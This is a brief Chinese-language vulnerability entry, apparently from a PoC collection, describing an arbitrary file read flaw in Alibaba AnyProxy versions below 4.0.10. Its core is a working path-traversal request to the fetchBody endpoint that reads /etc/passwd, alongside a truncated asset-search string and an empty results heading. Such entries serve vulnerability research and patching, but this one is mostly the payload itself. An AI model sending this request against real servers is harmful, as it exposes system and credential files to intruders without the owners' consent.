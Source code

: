 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

Alibaba AnyProxy < 4.0.10

## 网络测绘

"anyprox

## POC

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

## 扫描结果
